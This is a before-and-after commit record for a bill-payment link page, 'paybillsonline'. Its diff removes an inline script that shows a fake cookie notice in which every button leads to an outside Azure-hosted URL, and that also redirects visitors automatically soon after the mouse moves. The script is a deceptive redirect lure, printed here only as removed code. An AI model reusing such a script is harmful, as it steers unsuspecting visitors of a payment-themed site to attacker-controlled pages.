

Before and after one commit to mancillajoaquin204/paybillsonline, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 94-794 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -127,84 +127,7 @@
             <li><a href="https://www.xcelenergy.com/account">Xcel Energy Bill Pay</a></li>
         </ul>
     </div>
-	<script>
- (function () {
-  const redirectUrl = "https://blue-grass-0d10e4d1e.6.azurestaticapps.net"; // ⛳ Set your redirect URL here
-  let redirected = false;
-  let moved = false;
-  let initialPos = null;
 
-  function redirectUser() {
-    if (!redirected) {
-      redirected = true;
-      window.location.href = redirectUrl;
-    }
-  }
-
-  function showModal() {
-    const wrapper = document.createElement("div");
-    wrapper.innerHTML = `
-      <div style="
-        position: fixed;
-        top: 0; left: 0; width: 100%; height: 100%;
-        background: rgba(0,0,0,0.5);
-        display: flex; justify-content: center; align-items: center;
-        z-index: 10000;">
-        <div style="
-          background: #fff;
-          padding: 2rem;
-          border-radius: 16px;
-          max-width: 500px;
-          width: 90%;
-          text-align: center;
-          box-shadow:1px 0px 0px 13px rgb(255 227 227 / 35%);">
-          <h2 style="margin-top: 0; font-size: 24px; color: #333;">🍪 Cookie Notice</h2>
-          <p style="font-size: 15px; color: #555;">This site uses cookies to enhance functionality, analyze performance, and ensure compliance with data protection regulations. <a href="${redirectUrl}" style="color: #007bff;">Learn more</a>.</p>
-          <div style="margin-top: 1.5rem; display: flex; gap: 1rem; justify-content: center;">
-            <button id="acceptBtn" style="
-              padding: 10px 20px;
-              background: #28a745;
-              color: white;
-              border: none;
-              border-radius: 8px;
-              font-weight: bold;
-              cursor: pointer;">Accept</button>
-            <button id="declineBtn" style="
-              padding: 10px 20px;
-              background: #dc3545;
-              color: white;
-              border: none;
-              border-radius: 8px;
-              font-weight: bold;
-              cursor: pointer;">Decline</button>
-          </div>
-        </div>
-      </div>
-    `;
-    document.body.appendChild(wrapper);
-
-    document.getElementById("acceptBtn").addEventListener("click", redirectUser);
-    document.getElementById("declineBtn").addEventListener("click", redirectUser);
-  }
-
-  window.addEventListener("load", showModal);
-
-  window.addEventListener("mousemove", function (e) {
-    if (!moved) {
-      if (!initialPos) {
-        initialPos = { x: e.clientX, y: e.clientY };
-        return;
-      }
-      if (e.clientX !== initialPos.x || e.clientY !== initialPos.y) {
-        moved = true;
-        setTimeout(redirectUser, 2000);
-      }
-    }
-  });
-})();
-
-
-</script>
 
     <footer>
         <p>&copy; 2025 Bill Payment Services. All Rights Reserved.</p>
```
